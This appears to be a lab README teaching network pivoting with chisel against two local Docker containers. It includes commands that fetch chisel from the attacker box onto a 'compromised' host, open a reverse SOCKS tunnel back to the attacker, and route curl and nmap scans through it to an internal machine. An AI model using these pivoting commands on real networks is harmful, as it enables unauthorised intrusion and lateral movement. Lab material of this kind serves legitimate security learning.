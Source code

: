 # Playing with chisel
A small repo with examples to play with chisel

---

# Requirements:

- A Linux system/Attacker Box (I will use Manjaro)
- 2 Linux Docker Containers (I will use 2 Ubuntu containers)

---

# On our Attacker Box:

We will download <code>chisel</code> from the github repo:

```
https://github.com/jpillora/chisel
```

I will version <code>v1.7.7</code>

![](./Images/Version.png)

<i>NOTE:</i> If we attack a Windows system the Windows and Linux chisel must be on the same version e.g: 1.7.7

We install:

```bash
sudo packman -Sy proxychains
```

---

# On the Victim Containers

```bash
docker run -ti -h external ubuntu
docker run -ti -h internal ubuntu
```

The container named `external` is the one that we will use as a pivot to access the `internal` container

![](./Images/Containers0.png)

On the 2 containers we run:

```bash
apt update
apt install wget
apt install net-tools
pat install python3
```

![](./Images/Containers1.png)

![](./Images/Containers2.png)

---

# POC:

The `external` machine has the IP address: `172.17.0.3`

![](./Images/Containers3.png)


The `internal` machine has the IP address: `172.17.0.2`

![](./Images/Containers4.png)

On the `internal` machine we start a `Simple Python HTTP Server on TCP Port 8080`

```bash
python3 -m http.server 8080
```

![](./Images/Containers5.png)

We will try to access the HTTP server on the `internal` machine with a `curl` from out `Attacker Box` with the IP of `external`.

On the `external` machine we transfer `chisel`:

```bash
wget 192.168.1.36:8081/chisel
```

<i>NOTE:</i> The system with IP address `192.168.1.36` is my Manjaro Box wich runs an HTTP server on TCP Port 8081 to transfer files.

![](./Images/Containers6.png)

On our `Attacker Box` we run `chisel` as a server on port 8000 in `reverse mode` for reverse port forwarding

```bash
./chisel server -p 8000 --reverse
```

![](./Images/Host0.png)

On the 'compromised' `external` machine we run the `chisel` client and use a socks proxy:

```bash
./chisel client 192.168.1.36:8000 R:socks
```

![](./Images/Containers7.png)

![](./Images/Containers8.png)

The default socks port is the TCP Port 1080.

On our Attacker Box we have configure `proxychains` to use the socks5 proxy on TCP Port 1080:

```bash
sudo nvim /etc/proxychains.conf
```

![](./Images/ProxyChains0.png)

We add the last line:

```
socks5 127.0.0.1 1080
```

Now we can use `proxychains` before any command in order to pass the traffic from the pivot machine (`external`)

On our `Attacker Box`:

```bash
proxychains curl 172.17.0.2:8080
```

![](./Images/Host1.png)

As we can see there is a GET request on the TCP Port 8080 on the `internal` machine which came from the pivot(`external`) machine:

![](./Images/Containers9.png)

---

# Scanning with proxychains:

On our Attacker Box:

```bash
proxychains nmap -Pn -sV -sC  172.17.0.2
```

![](./Images/Host2.png)

